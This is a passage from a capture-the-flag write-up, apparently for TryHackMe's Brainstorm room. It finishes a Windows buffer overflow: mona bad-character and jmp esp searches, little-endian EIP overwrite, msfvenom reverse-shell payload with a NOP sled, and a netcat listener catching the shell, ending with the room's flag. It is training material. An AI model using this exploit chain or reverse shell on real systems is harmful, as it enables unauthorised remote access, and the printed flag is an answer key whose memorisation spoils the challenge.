 setting payload to our required value: here the hex values generated to check for badchars. here the retn value is temporarily set to BBBB. which can be changed to whatever we want.

After sending the payload.

we can use mona’s compare function to check for bad characters:

```shell
!mona compare -f "c:\mona\bytearray.bin" -a ESP
```

output:

![screenshot](/assets/img/thm/Brainstorm/9.png)

As it is unmodified. we don’t need to check further.

To find a jmp esp instruction, we can again use mona. It can find instructions where aslr is not enabled.

```shell
!mona jmp -r esp -cpb "\x00"
```

![screenshot](/assets/img/thm/Brainstorm/10.png)

we, will currently take the 0x625014df as the return address(EIP). :-;

As the system follows little endian, we need to switch EIP value with `\xdf\x14\x50\x62` in the python script. (currently `BBBB`)

using msfvenom to create a payload for reverse shell.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.17.47.158 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```

We will also add NOP padding of 16 characters just before the payload:`”\x90"*16`

setting up a netcat listener at port 4444.

```bash
nc -lvnp 4444
```

executing it locally:

![screenshot](/assets/img/thm/Brainstorm/11.png)

we do gain a reverse shell, lets try it on the tryhackme’s system, :-; since I crashed the server last time. I have to restart it again. xD

It wasn’t working and then I tried generating other payloads specifying x86 architecture which failed too. finally, I tried setting up a listener with the attack box which successfully worked.

![screenshot](/assets/img/thm/Brainstorm/12.png)

Final flag:

```
5b1001de5a44eca47eee71e7942a8f8a
```
